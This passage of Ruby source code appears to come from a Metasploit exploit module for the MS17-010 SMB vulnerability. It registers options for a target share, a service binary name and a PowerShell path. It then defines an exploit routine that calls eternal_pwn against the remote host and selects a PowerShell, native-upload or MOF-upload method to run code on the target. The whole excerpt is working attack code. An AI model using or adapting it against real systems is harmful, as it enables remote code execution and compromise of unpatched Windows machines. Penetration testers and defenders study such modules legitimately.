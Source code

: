     register_options(
      [
        OptString.new('SHARE',     [ true, "The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share", 'ADMIN$' ])
      ])

    register_advanced_options(
      [
        OptBool.new('ALLOW_GUEST', [true, "Keep trying if only given guest access", false]),
        OptString.new('SERVICE_FILENAME', [false, "Filename to to be used on target for the service binary",nil]),
        OptString.new('PSH_PATH', [false, 'Path to powershell.exe', 'Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe']),
        OptString.new('SERVICE_STUB_ENCODER', [false, "Encoder to use around the service registering stub",nil])
      ])
  end

  def exploit
    begin
      eternal_pwn(datastore['RHOST'])
      smb_pwn()

    rescue ::Msf::Exploit::Remote::SMB::Client::Psexec_MS17_010::MS17_010_Error => e
      print_error("#{e.message}")
    rescue ::Errno::ECONNRESET,
           ::Rex::Proto::SMB::Exceptions::LoginError,
           ::Rex::HostUnreachable,
           ::Rex::ConnectionTimeout,
           ::Rex::ConnectionRefused  => e
      print_error("#{e.class}: #{e.message}")
    rescue => error
      print_error(error.class.to_s)
      print_error(error.message)
      print_error(error.backtrace.join("\n"))
    ensure
      eternal_cleanup()       # restore session
    end
  end

  def smb_pwn()
    case target.name
    when 'Automatic'
      if powershell_installed?
        print_status('Selecting PowerShell target')
        powershell
      else
        print_status('Selecting native target')
        native_upload
      end
    when 'PowerShell'
      powershell
    when 'Native upload'
      native_upload
    when 'MOF upload'
      mof_upload
    end
